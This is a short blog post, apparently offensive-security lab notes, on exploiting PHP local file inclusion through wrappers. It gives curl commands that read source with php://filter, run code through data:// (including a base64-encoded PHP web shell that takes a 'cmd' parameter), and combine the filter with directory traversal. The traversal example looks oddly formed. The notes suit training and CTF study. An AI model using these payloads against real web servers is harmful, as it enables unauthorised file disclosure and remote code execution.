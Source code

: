```yaml
---
layout: post
title: Web App PHP Wrappers
titledate: 08/29/23
tags: ["infosec","offsec", "web", "lfi", "exploit", "php"]
---
```


<h4>PHP Wrappers</h4>

There are many php wrappers that can be used to bypass filters display file contents and obtain code execution

If we are trying to obtain more information about a php page perhaps we can use the php://filter wrapper

    $ curl http://vulnapp.com/home/index.php?page=php://filter/resource=admin.php

our content may be blocked so we can pass encoding options to filter

    $ curl http://vulnapp.com/home/index.php?page=php://filter/convert.base64-encode/resource=admin.php

the filter wrapper displays the file contents and the data wrapper can execute code

    $ curl "http://vulnapp.com/home/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"

as in the above filter wrapper example we may need to encode our command we pass to the data wrapper

    $ curl "http://vulnapp.com/home/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"

if we are using this in conjunction with a dir traversal it could look like

    $ curl http://vulnapp.com/home/index.php?page=php://filter/convert.base64-encode/resource=admin.php../../../../../../../../var/www/server/page.php

<h3>LOG ALL FLAGS BEFORE TURNING OFF MACHINE OR VPN</h3>
